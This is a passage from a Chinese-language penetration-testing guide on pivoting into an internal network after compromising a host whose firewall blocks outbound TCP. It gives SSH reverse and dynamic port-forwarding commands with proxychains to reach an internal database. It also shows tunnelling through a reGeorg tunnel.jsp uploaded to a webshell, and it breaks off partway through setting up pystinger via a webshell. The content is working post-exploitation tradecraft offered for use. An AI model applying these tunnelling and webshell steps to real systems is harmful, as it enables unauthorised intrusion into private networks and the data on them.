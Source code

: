 **方法一：反弹shell可参考场景一中的方法，仅需修改目标端口为防火墙允许的特定端口即可**

**方法二：端口转发**

**方法三：SSH的动态端口转发配合proxychains来代理所有流量进一步渗透内网**

1.在内网主机上执行

```
ssh -f -N -R 2222:127.0.0.1:22 -p 80 root@192.168.0.230
(输入外网主机的SSH口令)
```

2.在外网主机上执行

```
ssh -f -N -D 127.0.0.1:8080 -p 2222 avfisher@127.0.0.1
(输入内网主机的SSH口令)
```

3.在外网主机上配置proxychains设置socks4代理

```
$ vim /etc/proxychains.conf
[ProxyList]
socks4 127.0.0.1 8080
```

4.使用proxychains代理所有流量进入内网

```
proxychains nc -nv 10.0.2.5 3306
```

###### 场景三：TCP不出网-HTTP代理

**一.reGeorg**

reGeorg原版：https://github.com/sensepost/reGeorg
reGeorg修改版：https://github.com/L-codes/Neo-reGeorg

假设拿到的Webshell是[http://aaa.com/shell.jsp，](http://aaa.com/shell.jsp，以原版reGeorg为例。)以原版reGeorg为例。

上传reGeorg中的 tunnel.jsp，假设当前URL为http://aaa.com/tunnel.jsp

在本地PC运行如下命令

```
python reGeorgSocksProxy.py -p 8080 -h 0.0.0.0 -u http://aaa.com/tunnel.jsp
```

此时，将在本地PC的8080开启一个Socks端口，使用Proxifier即可进行代理。需要注意的是，由于这个http代理隧道比较脆弱，建议根据每个目标host单独添加规则，最好不要设置成全局代理。

**二.pystinger**

蜂刺-stinger_client

[pystinger](https://github.com/FunnyWolf/pystinger)

整体结构：

1.上传 proxy.jsp到目标Web服务器，上传stinger_server/stinger_server.exe到目标系统。

2.使用Webshell启动stinger_server
